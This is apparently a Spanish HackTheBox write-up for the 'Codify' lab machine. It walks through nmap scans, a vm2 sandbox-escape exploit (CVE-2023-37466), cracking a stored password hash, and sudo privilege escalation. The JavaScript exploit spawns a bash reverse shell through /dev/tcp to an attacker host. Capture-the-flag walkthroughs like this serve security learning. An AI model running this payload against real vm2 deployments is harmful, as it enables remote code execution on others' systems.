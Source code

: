 # Codify

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205144333.png?raw=true | width=100)

Write Up
--------

Codify es una máquina Linux donde explotaremos una vulnerabilidad en **vm2** (una biblioteca popular que se utiliza para ejecutar código no confiable en un entorno aislado en Node) 

Para comenzar, nos tenemos que asegurar de que la máquina está activa. Para ello mandamos una traza ICMP `ping -c 1 <IP>`, si está activa nos devolverá este mensaje &rarr; `1 packet emitted, 1 packet received` . La máquina está activa.

Una vez nos aseguramos de que la máquina está activa, pasamos a la fase de **reconocimiento**

#### Reconocimiento

Empezamos la fase de reconocmiento. Para ello hacemos uso de la herramienta **Nmap**, que nos permitirá reconocer los puertos que están abiertos. Existen 3 tipos de estados en cuanto a puertos.
1) Abierto (open)
2) Cerrado (closed)
3) Filtrado (filtered) &rarr; El puerto está protedigo por un firewall

Para enumerar los puertos abiertos, utilizaremos el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oN allPorts
```

Esto hará que un escaneo de los 65535 puertos y nos devolverá en un archivo los puertos que están abiertos. 

En este caso, odemos observar estos puertos abiertos:

![[Pasted image 20231205145448.png | 900]]

Como podemos observar, tenemos 3 puertos abiertos. 
- 22 (ssh)
- 80 (http)
- 3000 (ppp)

Para obtener más información acerca de estos puertos, ejecutamos el siguiente comando:

```bash
nmap -sCV -p22,80,3000 <IP> -oN targeted
```

Ejecutando este comando, **nmap** ejecutará un conjunto de scripts donde nos proporcionará información sobre los servicios y versiones que corren por detrás de cada puerto. En este caso:

![[Pasted image 20231205150042.png | 800]]

#### Explotación

Si nos metemos en la web mediante la IP, nos sale lo siguiente:

![[Pasted image 20231205150259.png | 600]]

**¿Cómo podemos solucionar esto?**

Este error significa que la dirección IP asociada con ese dominio, no se está resolviendo correctamente. Para resolverlo, tenemos que añadir esa dirección al `/etc/hosts`

![[Pasted image 20231205150753.png]]

Esto hará que cuando pongamos la dirección IP en la url del navegador, se resolverá a la dirección de dominio **`codify.htb`**

Al guardar el archivo y refrescar la web:

![[Pasted image 20231205151222.png | 1000]]

Si nos vamos a la ventana de *About Us*: 
![[Pasted image 20231205151434.png | 1000]]

Podemos ver que en el editor, está implementada la librería **vm2**.

**¿Qué es vm2?**

> VM2 es un módulo en Node.js que permite ejecutar código JavaScript de forma aislada y segura en un entorno controlado. Esta biblioteca proporciona funcionalidades para crear instancias de máquinas virtuales en las cuales puedes ejecutar scripts de JavaScript sin afectar el entorno principal de la aplicación.

Esta librería, tiene una vulnerabilidad. La **[CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5)** 

Esta vulnerabilidad nos permite una ejecución remota de comandos.

Si en el editor, ejecutamos el siguiente exploit:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

Y nos ponemos en escucha con **netcat** en el puerto especificado:

![[Pasted image 20231205152257.png | 1000]]

Una vez hemos conseguido una **reverse shell**, seguiremos con el tratamiento de la TTY.

Mediante los siguiente comandos:

- **`script /dev/null -c bash`**
- **`Hacemos Ctrl + Z`**
- **`stty raw -echo; fg`**
- **`Escribimos: reset`**

Y una vez estemos de nuevo en la terminal:

- **`export TERM=xterm`**

Y ya tendríamos una consola en condiciones.

El usuario con el que estamos conectados es: **`svc`** 

Si nos vamos a la ruta **`/home`** vemos que hay un usuario **`joshua`** al cual no podemos acceder, por lo que tendremos que conseguir las credenciales de este usuario.

Vamos a donde está almacenada la web: **`/var/www/`** y aquí tenemos 3 carpetas. **`contact`**, **`editor`** y **`html`**

Nos metemos en la carpeta **`contact`** y hacemos un cat del archivo `tickets.db`

![[Pasted image 20231205170029.png |800]]

Como podemos comprobar, tenemos el usuario: `joshua` y la contraseña que es todo lo que sigue. La cual está hasheada.

Para poder dehashear la contraseña, utilizaremos **john the ripper**. 

![[Pasted image 20231205170214.png |600]]

La contraseña es: **spongebob1**

Con esas credenciales, tenemos dos opciones. O nos metemos mediante el SSH que hemos visto que está abierto, o desde la propia terminal que tenemos abierta, hace un **`su joshua`**
e introducir la contraseña. Yo he preferido quedarme en la terminal que tengo abierta, ya que he tratado la TTY por lo que es lo mismo.

Y haciendo **`ls`** encontramos la *flag* de **user** por lo que nos quedaría encontrar la flag de root.

#### Escalada de privilegios

El útlimo paso sería escalar privilegios en la máquina.

En primer lugar, podemos buscar los programas con permisos **SUID** que podamos ejecutar como usuario **`joshua`**.

Para encontramos esos archivos:

```bash
find / -perm -4000 2>/dev/null
```

De los programas que salen, no podemos utilizar ninguno ya que no tenemos permisos de ejecución.

Por lo que probamos con otro comando:

```bash
sudo -l
```

![[Pasted image 20231205171125.png |900]]

Vemos que tenemos ese archivo.

![[Pasted image 20231205171323.png]]

**Casualmente** en el direcotrio 'joshua' hay un script programado en python que ejecuta el programa **`mysql-backup.sh`**, el cual, al ejecutarlo, nos va a mostrar la contraseña de root.

![[Pasted image 20231205171621.png | 600]]

Por último:

![[Pasted image 20231205171744.png | 500]]

### Hasta aquí :)
